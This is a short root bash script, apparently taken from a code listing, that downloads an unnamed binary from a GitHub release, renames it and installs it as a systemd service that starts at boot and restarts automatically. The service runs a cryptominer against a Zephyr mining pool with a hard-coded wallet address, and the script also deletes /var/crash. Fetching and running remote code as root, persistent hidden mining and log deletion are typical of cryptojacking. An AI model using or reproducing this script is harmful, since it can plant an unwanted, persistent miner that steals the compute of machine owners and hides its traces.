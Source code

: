 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o zephyr.miningocean.org:5332 -u ZEPHs7GMpgyKyQDSpaczt8VSm2e3YTjwHZTekzN8xzLTGGkMqXRFdHZHCP9eWwtSgEawC23tGVQ69DuZNpbLuwuNNRf8H5w76XJ -p vpstest1e -a rx/0 -k -t 96
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
